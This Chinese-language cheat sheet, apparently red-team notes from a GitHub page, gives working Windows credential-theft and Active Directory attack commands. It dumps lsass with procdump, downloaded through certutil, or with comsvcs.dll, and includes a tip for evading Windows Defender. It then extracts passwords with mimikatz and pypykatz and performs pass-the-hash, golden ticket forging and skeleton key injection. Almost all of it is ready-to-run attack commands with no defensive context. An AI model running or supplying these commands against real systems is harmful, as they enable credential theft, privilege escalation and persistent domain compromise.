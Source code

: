 ## 迷你转储

使用`procdump`转储lsass进程

> 当对lsass进行内存转储时，Windows Defender会被触发，迅速导致转储文件被删除。使用lsass的进程标识符（pid）"绕过"该限制。

```powershell
# HTTP方法 - 使用默认方式
certutil -urlcache -split -f http://live.sysinternals.com/procdump.exe C:\Users\Public\procdump.exe
C:\Users\Public\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# SMB方法 - 使用pid
net use Z: https://live.sysinternals.com
tasklist /fi "imagename eq lsass.exe" # 查找lsass的pid
Z:\procdump.exe -accepteula -ma $lsass_pid lsass.dmp
```

使用`rundll32`转储lsass进程

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```

使用迷你转储：

* Mimikatz: `.\mimikatz.exe "sekurlsa::minidump lsass.dmp"`

  ```powershell
  mimikatz # sekurlsa::minidump lsass.dmp
  mimikatz # sekurlsa::logonPasswords
  ```

* Pypykatz: `pypykatz lsa minidump lsass.dmp`

## 传递哈希

```powershell
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

## 金票

```powershell
.\mimikatz kerberos::golden /admin:管理员账户名 /domain:域名全名 /id:账户RID /sid:域SID /krbtgt:KRBTGT密码哈希 /ptt
```

```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## 骨架密钥

```powershell
privilege::debug
misc::skeleton
# 映射共享
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# 以某人身份登录
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```
